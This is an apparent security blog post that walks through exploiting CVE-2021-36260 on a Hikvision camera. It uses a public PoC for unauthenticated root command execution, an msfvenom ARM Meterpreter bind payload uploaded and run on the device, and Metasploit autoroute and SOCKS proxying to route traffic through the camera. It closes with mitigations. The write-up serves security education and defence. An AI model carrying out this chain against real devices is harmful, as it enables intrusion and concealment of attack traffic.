






In this blog, I'll show how a single unauthenticated vulnerability in a **Hikvision CCTV camera** gave me not just a root shell on the device, but a **covert network proxy**, routing my traffic through the camera so every packet appeared to come from a surveillance device instead of my machine.

## Prologue
> **"Quis custodiet ipsos custodes?"**  
> *(Who watches the watchmen?) - Juvenal*

A CCTV camera's entire purpose is to watch. It records everything in its field of view, day and night, trusting that nobody will turn the lens around. But nobody watches the watcher. Behind the lens is a computer, an embedded Linux system, with its own processor, its own network stack, and its own firmware. If that firmware carries an unpatched vulnerability, the device built to expose intruders becomes the perfect place to hide.

## What is CVE-2021-36260?
**CVE-2021-36260** is a **critical (CVSS 9.8) command-injection vulnerability** in the web server shipped on a wide range of Hikvision IP cameras and NVRs. Certain HTTP endpoints fail to sanitize user-supplied input before passing it to an internal system call, allowing a **remote, completely unauthenticated attacker** to inject and execute arbitrary operating-system commands as **root**.

No credential, session token, or prior access of any kind is required. A single crafted HTTP request against port 80 is enough to gain full command execution on the device's embedded Linux OS.

The vulnerability was disclosed in September 2021 and affects firmware across dozens of Hikvision camera and NVR product lines. Public proof-of-concept exploits have been widely available ever since, and the CVE has been actively exploited in the wild, including by botnets and APT groups looking for exactly the kind of pivot point this blog demonstrates.

## Confirming the Vulnerability
The starting point was a **Hikvision IP camera reachable on the internal network over HTTP (port 80)**. I ran the public [**CVE-2021-36260**](https://github.com/Aiminsun/CVE-2021-36260) proof-of-concept tool in `--check` mode against it:
```bash
python CVE-2021-36260.py --rhost x.x.x.x --rport 80 --check
```
The tool fingerprinted the firmware via its HTTP `ETag` header, confirmed the injection point was reachable, and reported: **`Remote is verified exploitable`**.

To prove this wasn't just a fingerprinting match, I ran an arbitrary command:
```bash
python CVE-2021-36260.py --rhost x.x.x.x --rport 80 --cmd "ls -la"
```
<br />
The device returned a full directory listing of its root filesystem (`applib`, `certs`, `initrun.sh`, `webLib`) all owned by **root**. Unauthenticated, remote, root-level command execution, confirmed.

## From Command Injection to Meterpreter
Running one-off commands through the RCE is useful, but for what comes next (routing traffic through the device) I needed a proper **interactive session**. The approach: generate a Meterpreter payload for the camera's architecture, upload it via the RCE, and execute it.

### Generating the Payload
The camera runs **embedded Linux on an ARM processor** (`armv5tejl`), so the payload needed to match:
```bash
msfvenom -p linux/armle/meterpreter/bind_tcp LPORT=57501 -f elf > bind
```
A **bind_tcp** payload means the camera listens on a port and waits for the attacker to connect, the opposite of a reverse shell, and better suited here because the camera is directly reachable on the internal network.

### Setting Up the Handler
In Metasploit, I configured a handler to connect to the waiting payload:
```bash
use exploit/multi/handler
set payload linux/armle/meterpreter/bind_tcp
set RHOST x.x.x.x
set LPORT 57501
run
```
<br />

### Uploading and Executing
The payload binary was uploaded to the camera using the RCE, made executable, and run:
```bash
python CVE-2021-36260.py --rhost x.x.x.x --rport 80 --cmd "chmod +x k"
python CVE-2021-36260.py --rhost x.x.x.x --rport 80 --cmd "./k"
```
The handler connected and dropped me into a **Meterpreter session**:<br />
<br />

`sysinfo` confirmed what was on the other end:
* **OS:** Linux 3.0.8
* **Architecture:** armv5tejl (ARM embedded)
* **BuildTuple:** armv5l-linux-musleabi

A full interactive shell on a CCTV camera, running a kernel from 2012, on a processor the size of a fingernail. And yet, from the network's perspective, this device is a fully functional Linux host with its own IP address, its own routing table, and its own view of the network.

## Turning the Camera into a Network Proxy
This is where the attack pivots from "compromised camera" to "covert infrastructure." A Meterpreter session isn't just a shell, it's a tunnel. Metasploit can route traffic *through* the session, and the camera becomes a transparent proxy sitting between the attacker and the rest of the network.

### Step 1: Route Traffic Through the Session
Metasploit's `autoroute` module tells the framework to forward any traffic destined for a given subnet through the Meterpreter session:
```bash
use multi/manage/autoroute
set session 1
set subnet <subnet>
set netmask <netmask>
set CMD add
run
```
This adds a route for the target network range through the camera. Any traffic Metasploit generates for that range now exits from the camera's network interface, not the attacker's.

### Step 2: Start a SOCKS Proxy
To extend this beyond Metasploit and into any application, I started a local **SOCKS5 proxy** that bridges into the Meterpreter tunnel:
```bash
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```
<br />
The SOCKS server is now listening on `127.0.0.1:1080`. Any application that speaks SOCKS5 (a browser, a scanner, `curl`, `proxychains`) can route its traffic through the compromised CCTV camera.

### A Word of Caution
It's worth remembering what's on the other end of this tunnel: a camera with a tiny embedded ARM processor designed to handle a handful of concurrent video streams, not general-purpose network traffic. The CPU, memory, and network stack were never built for heavy proxying. Push too many connections or too much bandwidth through the session and the Meterpreter process will exhaust the device's resources and the session will die. Keep the proxy usage light: targeted browsing, selective scans, specific requests. This is a scalpel, not a firehose.

## Configuring the Browser
To demonstrate, I pointed **Firefox** at the SOCKS proxy:<br />
<br />
* **SOCKS Host:** `127.0.0.1`
* **Port:** `1080`
* **SOCKS v5** selected, **Proxy DNS when using SOCKS v5** enabled

Every HTTP request Firefox makes now travels: **browser -> SOCKS proxy -> Meterpreter tunnel -> CCTV camera -> destination**. The destination sees the camera's IP address, not the attacker's.

## The Proof - Hidden Behind the Watcher
To prove the traffic was really exiting from the camera, I set up a simple HTTP server on another host on the network and browsed to it through the proxy:<br />
<br />

The HTTP server's access log tells the whole story. When I browsed to the same server **directly** (without the proxy), the log showed my real IP address. When I browsed through the **SOCKS proxy**, the log showed **the camera's IP address**, not mine.

The attacker's machine is invisible. Every request, every scan, every connection appears to originate from a surveillance camera, a device that is *supposed* to be there, doing exactly what cameras do: talking to the network. The traffic blends into the background noise of a device that no one thinks to inspect.

## Why This Matters - Cameras as Attack Infrastructure
This isn't a theoretical exercise. **Compromised IoT devices, especially cameras, are actively used as proxy infrastructure by real-world threat actors.**

Botnets like **Mirai** and its successors have turned hundreds of thousands of cameras, DVRs, and routers into distributed attack platforms. APT groups have used compromised surveillance cameras in target networks as **forward proxies**, routing their C2 traffic through devices that security teams rarely monitor and almost never patch. The device is trusted, its traffic is expected, and its logs (if it even has any) are almost never reviewed.

A camera running a kernel from 2012, bolted to a ceiling, with no endpoint agent and no one watching its firmware version: that's not just a camera anymore. It's a proxy, a pivot point, and a hiding spot, all in one.

## Attack Path
The full chain, from a vulnerable camera to covert network proxy:
1. Discover a Hikvision IP camera on the internal network (port 80).
2. Confirm it's vulnerable to **CVE-2021-36260** using the [PoC tool](https://github.com/Aiminsun/CVE-2021-36260) (`--check`).
3. Execute arbitrary commands as **root**, no credential required.
4. Generate an ARM Meterpreter **bind_tcp** payload with `msfvenom`.
5. Upload and execute the payload on the camera via the RCE.
6. Connect to the payload and establish a **Meterpreter session**.
7. Use `autoroute` to route traffic for the internal network through the session.
8. Start a **SOCKS5 proxy** on the attacker's machine, tunneled through the camera.
9. Point any application (browser, scanner, tools) at the SOCKS proxy.
10. All traffic now exits from the **camera's IP address**, the attacker is hidden.

## Mitigations
A compromised camera isn't just a privacy breach, it's a network foothold. To break this chain:
- **Update firmware immediately.** CVE-2021-36260 was patched by Hikvision in September 2021. Every unpatched camera is an unauthenticated root shell waiting to happen.
- **Segment the camera network.** Surveillance devices should live on a **dedicated, firewalled VLAN** with no route to sensitive infrastructure. A camera has no business reaching your domain controllers, databases, or internal web applications.
- **Block outbound traffic from cameras.** Cameras need to talk to their NVR/VMS and nothing else. Firewall rules should whitelist only the necessary destinations and drop everything else, especially arbitrary HTTP, SSH, and high-port traffic.
- **Monitor for anomalous traffic patterns.** A camera that starts making HTTP requests to internal hosts, or that suddenly has connections on non-standard ports (like 57501), is a strong indicator of compromise.
- **Disable unused services.** If a camera's web interface isn't needed for management, disable it. Every open port is attack surface.
- **Treat cameras as untrusted endpoints.** Deploy network-level monitoring (IDS/IPS, NetFlow analysis) on the camera VLAN. Don't assume that because a device is "just a camera," it can't be weaponized.

### Note
The above measures reduce risk significantly but do not guarantee 100% protection - defence in depth is the goal.

## Conclusion
A CCTV camera exists to watch: to record, to deter, to catch. But behind the lens is a computer, and an unpatched computer on a network is an invitation. A single unauthenticated HTTP request turned a surveillance camera into a root shell, and that shell became a **covert network proxy**, routing traffic so every packet appeared to come from a device that's supposed to be there, doing exactly what cameras do.

The irony is the point: the device deployed to make the network *more visible* became the thing that made the attacker *invisible*. Patch your cameras. Segment your networks. And never assume that the thing bolted to the ceiling is only watching.

## References
* [CVE-2021-36260 - Hikvision Command Injection Vulnerability (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-36260)
* [CVE-2021-36260 - Public Exploit (GitHub)](https://github.com/Aiminsun/CVE-2021-36260)
* [Hikvision Security Advisory - Firmware Update](https://www.hikvision.com/en/support/cybersecurity/security-advisory/security-notification-command-injection-vulnerability-in-some-hikvision-products/)
* [Network Espionage - Using Cameras as Proxy (Hackers Arise)](https://hackers-arise.com/network-espionage-using-russian-cameras-as-proxy/)
* [CISA Known Exploited Vulnerabilities Catalog - CVE-2021-36260](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
* [Metasploit - Autoroute and SOCKS Proxy](https://docs.rapid7.com/metasploit/)
